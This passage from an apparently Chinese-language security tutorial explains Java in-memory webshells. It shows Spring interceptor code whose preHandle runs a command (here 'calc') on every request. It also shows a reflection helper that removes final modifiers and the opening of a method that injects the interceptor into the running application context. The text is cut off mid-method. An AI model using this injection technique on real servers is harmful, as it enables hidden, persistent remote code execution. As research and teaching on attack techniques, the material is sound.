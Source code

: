 ![adaptedInterceptors](Java应用内存马/adaptedInterceptors.png)

我们可以轻易地编写出Interceptor内存马

```java
    public static class MyInterceptor implements HandlerInterceptor {
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            java.lang.Runtime.getRuntime().exec("calc");
            return true;
        }

        @Override
        public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
          
        }

        @Override
        public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
          
        }
    }
	public static void nofinal(Field targetField)throws Exception{
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(targetField, targetField.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
        targetField.setAccessible(true);
    }

    public static void injectInterceptor() throws Exception{
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
```